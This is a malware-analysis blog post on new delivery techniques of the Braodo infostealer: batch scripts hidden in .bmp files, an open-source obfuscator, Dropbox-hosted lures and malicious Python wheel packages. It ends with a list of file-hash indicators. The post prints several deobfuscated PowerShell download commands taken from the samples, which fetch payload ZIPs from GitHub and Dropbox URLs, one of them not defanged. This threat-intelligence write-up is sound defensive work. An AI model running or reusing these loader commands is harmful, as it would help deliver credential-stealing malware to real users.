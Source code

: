```yaml
---
title:  "Fresh Infections Of Braodo Stealer With Updated Techniques"
layout: post
categories: malware-analysis
---
```


## Contents

- Background.
- Technical Analysis.
    - Abusing .bmp file format.
    - Encoding and Obfuscation.
    - Abusing Dropbox services.
    - Abusing WHL packages. 
- IOCs.
- Conclusion.

## Background


Hi readers, hope you enjoyed my last blog on Braodo Stealer, as a newbie and as I'm just getting started I have decided to track the same, so recently I found that Braodo Stealer is back with a bunch of changes on their arsenal , which includes adding Base64 encoding along with renaming variable names and then abusing an open source obfuscator known as Abobas-Obfuscator. Well, the last but not the least that's using different file formats like .bmp and abusing Dropbox services for payload delivery.

## Technical Analysis.

In this phase, we will know different methods that this stealer uses to download the payload from various sources and executes the malicious python file. 


### Abusing .bmp file format.

One of the recent developments of Braodo Stealer's arsenal has been abusing bmp format for initial infections.

![image](https://github.com/user-attachments/assets/eb044983-e72d-46d3-a6a1-2701f87ea7f7)


So, we can see that there is encoded garbage blob present inside the bmp payload and the actual script which is responsible for downloading the final payload from Github which is exactly the same just like the previous campaigns with just different Github accounts downloading the final Python script.

### Encoding and obfuscation.

Another interesting development among the stealer arsenal is it has been using an open source obfuscator,known as [Abobus obfuscator](https://github.com/EscaLag/Abobus-obfuscator/blob/main/AbobusObf.py) as we found the name of the obfuscator as it is present in one of the sample with the name of the author.

![image](https://github.com/user-attachments/assets/0d2dae90-19d0-4d1d-b143-6ae11d6843ee)

The way this obfuscator works is by adding garbage values to the batch script then performing character encoding and by changing the cases of the alphabets in a random manner and many such pseduo obfuscation techniques . The way the sample deobfuscates and runs in memory is by initially changing the code page by using `chcp` windows utility and chnaging the code page to English which further faciliates the execution of the malicious batch script which then downloads the ZIP payload. As this is an open source obfuscator it was quite easy to understand and perform the deobfuscation.

The extracted config is as follows:

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("hxxps://github.com/LoneNone1807/abcxyz/raw/main/abcxyz.zip", "C:\\Users\\Public\\25350.zip")

```
 
### Abusing Dropbox services.

As we know that the primary technique of Braodo stealer is to store the final payload over Github, but recently in one of the campaigns which was obfuscated with Abobus obfuscator was dropping a document as a lure . The document was mainly focused on online marketing of shoes and similar marketing gimmicks were present. 


![image](https://github.com/user-attachments/assets/7a8ed849-736e-4b87-92aa-3f92b0f4ca36)

So , once the lure was popped up on the screen, I de-obfuscated and found out that this campaign is using Dropbox services to download the payload and also adding a registry key as persistance. The extracted configs are as follows:

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("hxxps://www.dropbox.com/scl/fi/mkx2tii0ud0i6ugpbbjh6/Product_Marketing_and_Brand_Marketing_Campaigns0909.docx?rlkey=4gqc2cpjo6kp5iltdjevlbxzv&st=50y5pfp4&dl=1", "C:\\Users\\Admin\\AppData\\Local\\Temp\\\\Product_Marketing_and_Brand_Marketing_Campaigns0909.docx")
```

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("https://www.dropbox.com/scl/fi/0qh04if44j5q056ehruij/tn0909.zip?rlkey=f9zmunjbhjdmsuh7by9bp4wf1&st=ffsvc7c8&dl=1", "C:\\Users\\Public\\Document.zip")
```

### Abusing whl package

![image](https://github.com/user-attachments/assets/e1053b08-c546-4960-acd8-8b35cfb6c815)

![image](https://github.com/user-attachments/assets/3a0e9466-56f0-407a-b11f-3ae40bd1ac5c)

Recently I found out that instead of delivering obfuscated batch files in a fresh campaign , the braodo stealer guys have started to deliver python whl packages which upon execution downloads the files from Github which involves the batch script masquareded in form of bmp file format and the ZIP file containing the actual malicious python file. 

![image](https://github.com/user-attachments/assets/8c501e69-4cb2-4954-846e-30b772ea0431)

so then I went ahead and downloaded the payloads. 

![image](https://github.com/user-attachments/assets/13fa8e80-c476-4451-94c0-8c329b2fec99)

![image](https://github.com/user-attachments/assets/a7fd4cb2-20c7-4ff7-b8e6-bdfa427ee0f4)

Once again it turns out that it is abusing bmp file format which has a batch script inside it which runs the `sim.py` file which is actually the infostealer.

## IOCs.

- e314fc6308c31b600eb43fee5e4716034375f0a7e6916326c605ec955ead5757
- dba09794ee80639df8633b23219d29976bd7fabcb60db063023f3ba8f9cc1c9b
- a93d56fde501f5341c1c84e5a1f2f17253bbcada088898b2cb3df35c9ff68b93
- 4d7892ce5812d01041cdeff95bc622dda3f6bb3add64045eb15ce73215080b52
- 1393332ec07088ea36ad7002528a5e80a16615e92898a56f2e427c004f718bcb



## Conclusion.

Thanks everyone for reading the blog up to here, thanks to Yogesh for helping me to track improvements in Braodo stealer's arsenal . This was one of a very brief attempt on understanding the changes. Please do let me know if you find any issues or feedback regarding the blog. 




